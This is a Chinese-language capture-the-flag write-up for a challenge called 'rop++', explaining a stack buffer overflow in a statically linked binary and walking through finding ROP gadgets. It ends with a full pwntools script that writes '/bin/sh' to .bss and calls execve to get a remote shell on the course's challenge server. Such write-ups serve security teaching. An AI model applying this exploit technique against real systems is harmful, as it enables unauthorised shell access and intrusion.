 ```yaml
---
mainfont: "Noto Sans CJK TC"
monofont: Iosevka Fixed Extended
---
```

# rop++
先看題目的程式碼:  
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char buf[0x10];
    const char *msg = "show me rop\n> ";

    write(1, msg, strlen(msg));
    read(0, buf, 0x200);
    
    return 0;
}
```
程式碼很短，他只做了一個明顯的buffer overflow。  
Makefile中的編譯選項爲:  
`gcc -fno-stack-protector -static -o chal rop++.c`  
也就是把canary關掉了，然後是static編譯，因此應該有很多rop gadget可以用。

## thought
因爲題目沒什麼限制，因此想要使用syscall來取得shell。  
要做到這點可以先找找有沒有/bin/sh字串，如果沒有再想辦法放進程式裡。  

## discovery
在程式中沒有找到/bin/sh字串，因此需要在payload中把/bin/sh寫入。  
要寫入可以找使用read syscall來吃資料，但"/bin/sh"加上NUL byte剛好8個byte，    
所以也可以找一個mov指令，然後將這個64bit的值寫入。  
只要能把字串寫入bss段，就可以在執行的時候讀到字串了。  

## readelf
使用readelf指令來找bss的address:  
![](imgs/bss_addr.png)  

## find ROP
要做syscall，因此先找rax的gadget  
![](imgs/pop_rax_ret.png)  
然後syscall:  
![](imgs/syscall.png)  

接著execve需要設定rdi, rsi, rdx，因此來找這幾個的gadget:  

- rdi  
![](imgs/pop_rdi_ret.png)  

- rsi  
![](imgs/pop_rsi_ret.png)  

- rdx  
![](imgs/pop_rbx.png)  
`pop rdx ; ret`的找不到，因此放寬條件搜索  
用`pop rax ; pop rdx ; pop rbx ; ret`來代替。  

接著找mov的指令:  
![](imgs/mov.png)  
這邊選了`mov qword ptr [rsi], rax ; ret`，因爲rsi跟rax前面都有了。  

## Solve
```py
import pwn

pwn.context.arch = "amd64"

bss_addr = 0x4c72a0     # .bss address
mov_rsi_rax = 0x449fa5  # mov qword ptr [rsi], rax ; ret
pop_rax = 0x447b27      # pop rax ; ret
pop_rsi = 0x409e6e      # pop rsi ; ret

pop_rdi = 0x401e3f                  # pop rdi ; ret
pop_rax_pop_rdx_pop_rbx = 0x47ed0a  # pop rax ; pop rdx ; pop rbx ; ret
syscall = 0x401bf4                  # syscall

payload = pwn.flat(
    b"A" * 40,

    # copy '/bin/sh' to .bss
    pop_rax, b"/bin/sh\0",  # rax <- '/bin/sh\0'
    pop_rsi, bss_addr,  # rsi <- 0x4c72a0
    mov_rsi_rax,  # [0x4c72a0] <- '/bin/sh\0'

    # execve syscall
    pop_rdi, bss_addr,
    pop_rsi, 0,
    pop_rax_pop_rdx_pop_rbx, 0x3b, 0, 0,
    syscall,
)

r = pwn.remote("edu-ctf.zoolab.org", 10003)
r.recvuntil(b"show me rop\n> ")

r.sendline(payload)
r.interactive()
```

![](imgs/flag.png)